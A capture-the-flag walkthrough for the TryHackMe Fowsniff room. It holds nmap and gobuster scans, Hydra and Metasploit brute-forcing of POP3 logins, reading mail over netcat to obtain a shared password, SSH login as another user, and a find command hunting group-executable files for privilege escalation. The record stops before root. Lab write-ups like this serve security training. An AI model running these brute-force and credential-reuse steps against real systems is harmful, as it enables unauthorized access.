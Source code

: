 # TryHackMe - Fowsniff CTF  
🔗 https://tryhackme.com/room/fowsniff

## 🎯 Objective

Enumerate services, perform brute-force attack on POP3 credentials, analyze received emails to extract passwords, access via SSH, and escalate privileges via group-based file discovery.

---

## 🖥️ Target Information

| Property     | Value                                   |
|--------------|------------------------------------------|
| IP Address   | 10.10.81.195                            |
| Services     | 22/tcp (SSH), 80/tcp (HTTP),            |
|              | 110/tcp (POP3), 143/tcp (IMAP)          |
| Web Server   | Apache 2.4.18 (Ubuntu)                  |
| SSH Server   | OpenSSH 7.2p2 Ubuntu 4ubuntu2.4         |

---

## 🔍 1. Enumeration

### 🔧 Nmap Scan
```bash
nmap -sV -O 10.10.81.195
```

- 22/tcp: OpenSSH 7.2p2
- 80/tcp: Apache 2.4.18
- 110/tcp: Dovecot pop3d
- 143/tcp: Dovecot imapd

---

### 🔍 Gobuster Scan
```bash
gobuster dir -u http://10.10.81.195 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

gobuster dir -u http://10.10.247.215/as -w /usr/share/wordlists/dirb/common.txt -x php
```

💡 JavaScript shows compatibility fix for old WP browsers — not exploitable.

---

## 🔐 2. POP3 Credential Brute-Force

### Manual check
```bash
nc 10.10.81.195 110
```
- Server responds → POP3 is live.

### Hydra attempt (timeout issue)
```bash
hydra -l seina -P /usr/share/wordlists/rockyou.txt -f -o found.txt pop3://10.10.81.195
```

❌ Long timeout — switched to Metasploit

---

### ✅ Metasploit Method
```bash
msfconsole

use auxiliary/scanner/pop3/pop3_login
set RHOSTS 10.10.81.195
set USERNAME seina
set PASS_FILE /usr/share/wordlists/rockyou.txt
set STOP_ON_SUCCESS true
set THREADS 10
set VERBOSE false
set CONNECT_TIMEOUT 5
run
```

✅ Cracked Password: `scoobydoo2`

---

## 📬 3. Mail Access via POP3

```bash
nc 10.10.81.195 110

USER seina
PASS scoobydoo2
LIST
RETR 1
```

📧 Message contains:
```
All users’ temporary password: S1ck3nBluff+secureshell
```

---

## 🔑 4. SSH Access (new user)

Try the password with `baksteen`:
```bash
ssh baksteen@10.10.81.195
Password: S1ck3nBluff+secureshell
```

```bash
id
```

Result:
```
uid=1004(baksteen) gid=100(users) groups=100(users),1001(baksteen)
```

---

## 🔓 5. Privilege Escalation

Search for group-executable files:
```bash
find / -gid 100 -perm -g=x -type f 2>/dev/null
```

Discovered:
```
/opt/cube/cube.sh
```

✅ Further analysis needed on `cube.sh`

---

## ✅ Summary

| Phase                  | Status                          |
|-----------------------|----------------------------------|
| Service Enumeration    | ✅ Nmap + Gobuster               |
| POP3 Brute Force       | ✅ Password found via Metasploit |
| Email Analysis         | ✅ Found shared password         |
| SSH Access             | ✅ baksteen                      |
| Privilege Enumeration  | ✅ Group-based search success    |
| Root/Final PrivEsc     | 🕓 Pending cube.sh analysis      |
